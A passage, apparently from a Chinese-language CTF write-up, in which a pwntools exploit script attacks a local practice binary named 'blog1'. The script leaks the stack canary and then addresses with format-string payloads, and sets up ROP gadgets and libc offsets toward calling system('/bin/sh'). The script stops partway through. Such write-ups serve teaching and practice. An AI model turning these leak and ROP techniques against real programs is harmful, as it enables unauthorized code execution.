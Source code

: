 > 栈溢出位置仅能覆盖到 ret

```python
# -*- coding: utf-8 -*-

from pwn import *
import pwn

context(log_level='debug', )
fileName = './blog1'

p = process(fileName)
elf = ELF(fileName)

p64 = pwn.p64
u64 = pwn.u64

'''
[*] '/home/wkyuu/Desktop/temp/blog1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
'''

# bin
bin_func_main = elf.sym['main']
bin_puts_plt = elf.sym['puts']
bin_puts_got = elf.got['puts']
bin_pop_rdi_ret = 0x14d3    # ROPgadget --binary blog1 | grep "pop rdi"
bin_leave = 0x1376

# libc
libc_puts = 0x75db0
libc_system = 0x4a490
libc_str_bin_sh = 0x1b3115


def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))


def dbg(p=p, gdbscript=""):
    gdb.attach(p, gdbscript=gdbscript)
    pause()


# leak_canary
logger('leak_canary')
payload = b'aaab%15$p'  # aaab.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
canary = int(p.recv(18), 16)
logger('canary', hex(canary), 'success')

# leak_func_main
logger('leak_func_main')
payload = b'aaab%13$p'
```